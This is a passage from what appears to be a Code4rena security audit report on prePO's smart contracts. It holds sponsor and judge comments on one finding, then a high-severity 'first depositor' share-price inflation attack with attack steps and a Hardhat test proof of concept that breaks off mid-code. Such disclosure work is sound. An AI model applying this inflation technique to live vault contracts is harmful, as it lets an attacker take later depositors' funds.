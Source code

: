                 _newStrategy.deposit(_baseToken.balanceOf(address(this)));
            }
            emit StrategyMigrated(
                address(_oldStrategy),
                address(_newStrategy),
                _oldStrategyBalance
            );
        }

**[ramenforbreakfast (prePO) confirmed and commented](https://github.com/code-423n4/2022-03-prepo-findings/issues/26#issuecomment-1075728097):**
 > This is a valid claim, although it is an edge case. I will maintain the severity of this issue as is. Should consider removing a fixed migration procedure altogether as this issue demonstrates one of the many problems that can occur.

**[gzeon (judge) commented](https://github.com/code-423n4/2022-03-prepo-findings/issues/26#issuecomment-1086869784):**
 > Agree with sponsor.



***

## [[H-02] First depositor can break minting of shares](https://github.com/code-423n4/2022-03-prepo-findings/issues/27)
_Submitted by GreyArt, also found by 0xDjango, CertoraInc, cmichel, rayn, TomFrenchBlockchain, and WatchPug_

[Collateral.sol#L82-L91](https://github.com/code-423n4/2022-03-prepo/blob/main/contracts/core/Collateral.sol#L82-L91)<br>

The attack vector and impact is the same as [TOB-YEARN-003](https://github.com/yearn/yearn-security/blob/master/audits/20210719\_ToB_yearn_vaultsv2/ToB\_-\_Yearn_Vault_v\_2\_Smart_Contracts_Audit_Report.pdf), where users may not receive shares in exchange for their deposits if the total asset amount has been manipulated through a large “donation”.

### Proof of Concept

*   Attacker deposits 2 wei (so that it is greater than min fee) to mint 1 share
*   Attacker transfers exorbitant amount to `_strategyController` to greatly inflate the share’s price. Note that the `_strategyController` deposits its entire balance to the strategy when its `deposit()` function is called.
*   Subsequent depositors instead have to deposit an equivalent sum to avoid minting 0 shares. Otherwise, their deposits accrue to the attacker who holds the only share.

```jsx
it("will cause 0 share issuance", async () => {
	// 1. first user deposits 2 wei because 1 wei will be deducted for fee
	let firstDepositAmount = ethers.BigNumber.from(2)
	await transferAndApproveForDeposit(
	    user,
	    collateral.address,
	    firstDepositAmount
	)
	
	await collateral
	    .connect(user)
	    .deposit(firstDepositAmount)
	
	// 2. do huge transfer of 1M to strategy to controller
	// to greatly inflate share price
	await baseToken.transfer(strategyController.address, ethers.utils.parseEther("1000000"));
	
	// 3. deployer tries to deposit reasonable amount of 10_000
	let subsequentDepositAmount = ethers.utils.parseEther("10000");
	await transferAndApproveForDeposit(
	    deployer,
```